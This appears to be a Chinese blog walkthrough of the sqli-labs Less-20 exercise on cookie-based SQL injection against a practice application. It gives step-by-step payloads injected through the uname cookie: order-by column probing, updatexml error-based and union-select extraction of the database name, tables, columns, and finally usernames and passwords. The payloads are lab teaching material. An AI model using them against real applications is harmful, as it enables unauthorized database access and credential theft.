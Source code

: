 # 原创
：  （手工）【sqli-labs20】cookie注入:原理、利用过程

# （手工）【sqli-labs20】cookie注入:原理、利用过程

**目录**

[推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less20（POST-Cookie injections -Uagent field -Error based）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（Cookie注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 2.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[2.4、第三步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[2.5、第四步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[2.6、第五步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.7、第六步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

---


> 
<h2>推荐：</h2>
[【SQL注入】cookie注入：原理、步骤、示例<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125685994?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125685994?spm=1001.2014.3001.5501)


---


---


## 一、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限、过滤
第三步：爆数据库名
第四步：爆表名
第五步：爆字段名
第六步：爆数据


---


---


## 二、Less20（POST-Cookie injections -Uagent field -Error based）

> 
<h3>2.1、简介：（Cookie注入）</h3>
请求方法：POST
方法：Cookie注入报错回显



> 
<h3>2.2、第一步：注入点测试</h3>
输入框测试都不存在注入点

 登录进去以后
回显有User-Agent、IP、Cookie、id、username、password

Cookie特征可以看出： 
登陆后将uname写入了Cookie中
每次请求时，判断Cookie是否存在，若存在则读取Cookie中字段uname；不存在则为登录界面
用户存在则将查询到用户id、username、password回显



> 
<h3> 2.3、第二步：分析过滤</h3>
在输入框中尝试都未报错
对输入框都进行了过滤
接下来：
方法一：获得源码，寻找过滤不严谨的地方
方法二：寻找其他注入点（Header）
<hr/>
尝试对cookie进行注入
uname=admin' order by 3#
（或者uname=1' union select 1,2,3#）
正常回显

 uname=admin' order by 4#
存在回显报错

说明存在注入点（单引号闭合）
且字段数为3


> 
<h3>2.4、第三步：暴库</h3>
uname=' union select 1,2,(updatexml(1,concat(0x7e, database(),0x7e),1))#

或者
uname=1' union select 1,2,database()#

 


> 
<h3>2.5、第四步：爆表名</h3>
uname=' union select 1,2,(updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1))#


或者
uname=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'#

 


> 
<h3>2.6、第五步：爆字段</h3>
uname=' union select 1,2,(updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1))#

或者
uname=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'#

 


> 
<h3>2.7、第六步：爆数据</h3>
uname=' union select 1,2,(updatexml(1,concat(0x7e, (select group_concat(username,'-',password) from security.users),0x7e),1))#


或者 
uname=1' union select 1,2,group_concat(concat('-',id,username,password)) from users#

 

